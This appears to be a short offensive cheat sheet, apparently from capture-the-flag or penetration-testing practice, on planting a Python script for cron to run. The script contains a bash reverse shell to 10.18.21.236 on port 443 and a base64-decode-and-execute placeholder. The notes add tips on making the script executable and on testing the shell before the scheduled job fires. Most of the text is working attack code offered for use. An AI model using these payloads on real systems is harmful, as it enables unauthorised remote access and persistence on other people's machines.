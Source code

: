 

```python
#!/usr/bin/env python3

import os
os.system('echo base64EncodedRevshellsScriptHere|base64 -d|bash')
```

```python
#!/usr/bin/env python3

import os

os.system("touch /tmp/testfile")
os.system("echo 'bash -i >& /dev/tcp/10.18.21.236/443 0>&1'|bash")
```

<font color="red">Don't forget to make sure your script file is executable `chmod +x [script]`
cron won't run without both # and +x</font>
Also testrun shell as current user before waiting for scheduled job to run

Instead of hardcoding the path to the Python interpreter, `#!/usr/bin/python3`, use `#!/usr/bin/env python3` as it makes the script more flexible and able to adapt to different environments where the interpreter might be located in a different directory.

